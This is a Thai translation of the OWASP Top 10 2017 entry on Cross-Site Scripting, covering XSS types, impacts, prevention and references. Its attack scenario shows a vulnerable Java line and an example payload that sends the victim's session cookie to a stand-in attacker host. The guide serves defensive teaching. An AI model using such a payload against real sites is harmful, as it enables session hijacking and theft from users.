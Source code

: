# A7:2017 Cross-Site Scripting (XSS)

| ผู้โจมตี/ช่องทาง | จุดอ่อนด้านความปลอดภัย           | ผลกระทบ               |
| -- | -- | -- |
| การเข้าถึงช่องโหว่ : ความยากในการโจมตี 3 | แพร่กระจายง่าย 3 : ตรวจพบได้ง่าย 3 | ผลกระทบทางเทคนิค 2 : ผลกระทบทางธุรกิจ ? |
| โปรแกรมตรวจสอบช่องโหว่อัตโนมัติ สามารถใช้ตรวจจับและโจมตีช่องโหว่ประเภท XSS ได้ทั้งสามรูปแบบ (Reflected XSS, Stored XSS และ DOM XSS) พร้อมทั้งมี เฟรมเวิร์ค สำหรับโจมตีช่องโหว่นี้โดยเฉพาะแจกฟรีอีกด้วย เช่น BeEF (Browser Exploitation Framework) | ช่องโหว่ XSS แพร่กระจายได้มากเป็นอันดับสอง ใน OWASP Top 10 และพบว่าสองในสามส่วนของแอพพลิเคชั่นที่ถูกทดสอบความปลอดภัยมีช่องโหว่ XSS, โปรแกรมตรวจสอบช่องโหว่อัตโนมัติสามารถใช้หาช่องโหว่ XSS บางส่วนได้ โดยเฉพาะในเว็บเทคโนโลยีหลัก ๆ อย่าง PHP, J2EE / JSP และ ASP.NET | โดยทั่วไปผลกระทบของช่องโหว่ XSS มีความรุนแรงปานกลางสำหรับประเภท Reflected กับ DOM XSS และมีความรุนแรงสูงสำหรับประเภท Stored XSS ผลกระทบหลัก ๆ คือผู้โจมตีสามารถสั่งการทำงานฝั่ง client บน web browser ของเหยื่อได้ เช่นสามารถขโมยรหัสผ่านที่พิมพ์ หรืออ่านจากใน textfield, ขโมย user session หรือโจมตีเหยื่อด้วยมัลแวร์ที่เขียนจาก JavaScript |

## แอพพลิเคชั่นนี้มีช่องโหว่หรือไม่?

ช่องโหว่ XSS มีสามประเภท ซึ่งทั้งหมดนี้โจมตีไปที่ web browser ของเหยื่อ:

* **Reflected XSS**: เกิดจากแอพพลิเคชั่นหรือ API รับค่ามาจากผู้ใช้งานโดยไม่ได้ตรวจสอบมาแสดงผลเป็นหน้าเว็บ HTML ถ้าถูกโจมตีสำเร็จ ผู้โจมตีสามารถสั่งการทำงานด้วยโค้ด HTML และ JavaScript ใด ๆ บน web browser ของเหยื่อได้ตามต้องการ โดยปกติแล้ว XSS ประเภทนี้ เหยื่อจะต้องเข้า link หน้าเว็บที่ผู้โจมตีสร้างหรือใส่ HTTP parameter บนเว็บที่มีช่องโหว่ XSS แล้วส่งมาให้เหยื่อเปิด อาจใช้ร่วมกับการโจมตีแบบอื่นเช่น watering hole, การแพร่เว็บโฆษณา และอื่น ๆ 
* **Stored XSS**: เกิดจากแอพพลิเคชั่นหรือ API เก็บค่าที่รับมาจากผู้ใช้งานโดยไม่ได้ตรวจสอบแล้วนำมาแสดงผลในภายหลัง ให้ผู้ใช้งานหรือผู้ดูแลระบบเห็น โดยปกติแล้ว Stored XSS จัดว่าเป็นช่องโหว่ที่มีความรุนแรงสูงหรือร้ายแรงมาก
* **DOM XSS**: เฟรมเวิร์ค JavaScript , แอพพลิเคชั่นที่มีหน้าเดียว และ API ต่าง ๆ ที่รับค่าที่ผู้โจมตีควบคุมได้ส่งมาแสดงโดยไม่ได้ตรวจสอบ มาแสดงตอน JavaScript กำลังทำงานอยู่และค่าที่ผู้โจมตีส่งมาทำงานเป็น JavaScript เกิดขึ้นใน DOM จะเรียกได้ว่าเป็น DOM XSS 

ปกติแล้วการโจมตีแบบ XSS ส่งผลให้ผู้โจมตีสามารถขโมย user session เหยื่อได้, ยึดบัญชีของเหยื่อได้, ข้ามผ่านการยืนยันตัวแบบ MFA (Multi-Factor Authentication), แก้ไขค่าใน DOM node บน HTML หรือแก้ไขหน้าเว็บ (เช่นสร้างหน้าล็อคอินปลอม), โจมตีผู้ใช้งานเว็บผ่าน web browser เช่นหลอกให้ดาวโหลดไฟล์มัลแวร์, ดักรหัสผ่านที่พิมพ์ผ่านคีย์บอร์ด และการโจมตีประเภท client-side อื่น ๆ อีกมากมาย

## ป้องกันอย่างไร

การป้องกันช่องโหว่ XSS จะต้องทำการแยก ข้อมูลที่รับมาจากผู้ใช้งานออกจากโค้ด HTML และ JavaScript ที่ทำงานปกติในหน้าเว็บ ซึ่งสามารถทำได้โดย:

* ใช้เฟรมเวิร์คที่ทำการป้องกัน XSS มาให้ตอนแสดงค่าที่รับมาจากผู้ใช้งานอยู่แล้ว เช่นใน Ruby on Rails หรือ React JS เวอร์ชั่นล่าสุด และจำเป็นต้องศึกษาข้อจำกัดของเฟรมเวิร์คในการป้องกัน XSS พร้อมทั้งวิธีการจัดการค่าที่รับเข้ามาในกรณีที่เฟรมเวิร์คไม่ได้ครอบคลุมในจุดนั้น ๆ
* แปลงค่าที่รับเข้ามาผ่าน HTTP request ให้เหมาะสมกับส่วนที่นำไปแสดงผลของหน้าเว็บ (เช่นในส่วนของ body, attribute, JavaScript, CSS, หรือ URL) จะช่วยแก้ปัญหาช่องโหว่ XSS ได้ เพิ่มเติมคือในเอกสาร [OWASP  Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) มีบอกรายละเอียดว่ารับค่าเข้ามาแสดงที่ส่วนไหน จะต้องใช้เทคนิคแปลงค่าใด
* เมื่อมีการแก้ไขข้อมูลบนหน้าเว็บผ่าน JavaScript จะต้องทำการแปลงค่าอย่างปลอดภัยซึ่งจะแตกต่างกันตามแต่ส่วนที่นำไปแสดง เพื่อป้องกัน DOM XSS ถ้าไม่สามารถแปลงได้ ให้ใช้เทคนิคอื่น ๆ ที่อธิบายไว้ในเอกสาร  [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* เปิดใช้งานฟีเจอร์ [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) ซึ่งเป็นการป้องกัน XSS โดยใช้หลักการของ defense-in-depth, ถ้าใช้อย่างถูกวิธี จะป้องกัน XSS ได้ในกรณีที่ไม่มีช่องโหว่อื่น ๆ ที่ทำให้ผู้โจมตีสามารถใส่โค้ดอันตรายผ่านการนำไฟล์มาแสดงผลบนหน้าเว็บได้ (เช่น path traversal ที่เปลี่ยนที่อยู่ของไฟล์ JavaScript ที่นำมาใช้งานหรือผู้โจมตีสามารถแก้ไขค่าไฟล์บนเซิร์ฟเวอร์ที่ค่าใน CSP ยอมให้เรียกโค้ดมาใช้ได้) 

## ตัวอย่างของกระบวนการโจมตี

**Scenario #1**: กรณีที่แอพพลิเคชั่นรับค่าจากผู้ใช้งานโดยไม่ได้ตรวจสอบหรือแปลงให้ปลอดภัยแล้วนำมาแสดงบนหน้าเว็บโดยตรงจากโค้ดภาษา Java ต่อไปนี้:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
ผู้โจมตีสามารถแก้ไขค่า HTTP parameter ชื่อ CC ผ่าน web browser ไปเป็นค่า:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

แล้วส่ง link ไปให้เหยื่อเปิด การทำแบบนี้เป็นการใส่ JavaScript เพื่อโจมตีทำให้ session ID ที่อยู่ใน cookie ของ web browser ของเหยื่อที่เปิด link ถูกส่งไปยังเว็บของผู้โจมตี ส่งผลให้ ผู้โจมตีสามารถข้ามผ่านการล็อคอินเข้าไปเป็น user session ของเหยื่อได้

**ข้อสังเกต**: ถ้าเกิดในแอพพลิเคชั่นมีช่องโหว่ XSS ผู้โจมตีสามารถโจมตี XSS เพื่อข้ามผ่านการป้องกันของช่องโหว่ CSRF ใด ๆ และทำการโจมตีแบบ CSRF ต่อได้

## อ้างอิง

### จาก OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### จากแหล่งอื่น

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
